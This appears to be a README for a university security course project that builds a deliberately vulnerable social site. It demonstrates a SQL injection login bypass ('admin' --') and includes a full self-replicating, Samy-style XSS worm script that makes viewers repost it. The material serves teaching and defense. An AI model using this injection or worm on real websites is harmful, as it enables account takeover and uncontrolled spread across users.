 # ECE-5590-Attack-Reproduction

Objective: Malicious code in websites

Part 1: Build a simple dummy social networking site and use it to demonstrate SQL injection, XSS, and CSRF vulnerabilities.

Part 2: Construct an XSS worm to attack your site, like the Samy worm that infected MySpace.

Part 3: Implement defenses against each threat. 



## Steps


# Setup DB

```
python setup_db.py
```


# Start Website

```
python app.py
```
The site comes with 3 accounts with the following credentials:

- `admin:admin`
- `bob:bob`
- `alice:alice`

Additional accounts can be created

Register a user with the following
- Username: >username<
- Password: >password<

Log in with these credentials

# SQL injection

Go to login page and append `' --` to the username, for example:
- Username: `admin' --`
- Password: >any<

This logs you in as admin without needing the password


# XSS Worm Example

1) Login as alice (alice:alice)

2) Create a post with the following:
```
<script>
fetch('/post', {  // Sends request to create new post on website
    method: 'POST',  // Use the HTTP POST method to send data
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },  // Set the request content type

    // The body of the request contains the post content.
    body: 'content=' + encodeURIComponent('Alice is the best <scr' + 'ipt>' + 
        'fetch("/post", {' +
        'method: "POST",' +
        'headers: {"Content-Type": "application/x-www-form-urlencoded"},' +
        'body: "content=" + encodeURIComponent(\'Alice is the best <scr\'+\'ipt>\' + document.currentScript.outerHTML + \'</scr\'+\'ipt>\')' +
        '});' +
        '</scr' + 'ipt>')
});
</script>
I'm the best! 
```

3) Logout
4) Log in to bob's account (bob:bob)
5) View global feed as bob, to see alice's post
6) Logout
7) Log back in to alice
8) View global post, see that bob has reposted alice's post.

